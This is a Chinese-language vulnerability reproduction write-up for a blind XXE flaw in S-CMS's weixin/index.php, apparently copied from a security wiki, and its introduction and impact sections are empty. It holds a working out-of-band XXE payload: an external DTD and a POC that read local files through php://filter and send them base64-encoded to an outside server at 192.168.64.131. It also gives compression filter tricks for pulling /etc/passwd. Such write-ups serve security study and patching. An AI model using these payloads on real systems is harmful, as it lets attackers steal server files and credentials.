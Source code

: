 S-CMS xxe漏洞
=============

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

### 漏洞分析

全局搜索`simplexml`，在`weixin/index.php`发现漏洞

![](./resource/S-CMSxxe漏洞/media/rId25.jpg)

非常标准的XXE，没有任何过滤手段，往下并未发现有输出XML解析结果的地方，此处应用无回显的XXE攻击手段

### 漏洞复现

首先在自己的服务器（192.168.64.131）上创建一个供靶机外部引用的dtd文件（test.dtd）

    <!ENTITY % all 
        "<!ENTITY &#x25; send SYSTEM 'http://192.168.64.131/?%file;'>"
    >
    %all;

发送POC

    <?xml version="1.0"?>
    <!DOCTYPE ANY [
        <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=d:/phpStudy/PHPTutorial/WWW/robots.txt">
        <!ENTITY % dtd SYSTEM "http://192.168.64.131/test.dtd">
    %dtd;
    %send;
    ]>

![](./resource/S-CMSxxe漏洞/media/rId27.jpg)

然后在Apache日志中查看到结果：

![](./resource/S-CMSxxe漏洞/media/rId28.jpg)

在这里发现一个问题，查看其它php文件的内容会发生`Detected an entity reference loop`错误，查询资料发现libxml解析器默认限制外部实体长度为2k，无法突破，只能寻找压缩解决方案（但效果不明显）

    压缩：echo file_get_contents("php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd");
    解压：echo file_get_contents("php://filter/read=convert.base64-decode/zlib.inflate/resource=/tmp/1");

参考链接
--------

> http://pines404.online/2019/10/31/%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/S-CMS%E5%AE%A1%E8%AE%A1%E5%A4%8D%E7%8E%B0/
